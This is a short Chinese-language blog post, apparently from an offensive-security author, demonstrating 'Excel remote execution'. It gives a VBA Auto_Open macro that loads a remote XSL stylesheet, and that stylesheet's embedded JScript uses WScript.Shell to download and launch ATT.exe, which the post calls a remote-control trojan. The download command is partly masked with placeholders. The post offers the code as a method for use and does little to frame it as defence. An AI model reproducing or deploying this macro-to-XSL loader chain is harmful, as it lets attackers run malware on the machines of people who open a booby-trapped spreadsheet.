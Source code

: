 ```yaml
---
title: EXCEL远程执行
author: APT - 0x44LL
date: 2021-01-17
category: Jekyll
layout: post
---
```


## EXCEL远程执行演示
<video src="/public/video/RemoteExecution.mp4" width="750px" height="480px" controls="controls"></video>

## 准备工作：<br>
**1.创建以下两个文件<br>**
<font color=Red>
excel.xsl<br>
ATT.xsl<br>
ATT.exe<br>
</font>
---

> excel.xsl

```
Sub Auto_Open()
    Set XML = CreateObject("Microsoft.XMLDOM")
    XML.async = False
    Set xsl = XML
    xsl.Load "http://127.0.0.1:80/ATT.xsl"
    XML.transformNode xsl
End Sub
***

> ATT.xsl

```
<xsl:stylesheet 
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
xmlns:ms="urn:schemas-microsoft-com:xslt" 
xmlns:user="placeholder" 

version="1.0">
<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("cmd xxxxx -xx 127.0.1.1/ATT.exe xxxx/ATT.exe & start xxxx/ATT.exe",0);
  ]]>
</ms:script>
</xsl:stylesheet>
```

> ATT.exe

```
这是远控生成的木马
```

**<font color=Red face="黑体">将ATT.xsl调用ATT.exe执行,当excel.xsl打开就会进行远程加载ATT.xsl并下载在本地执行ATT.exe木马程序；</font>**

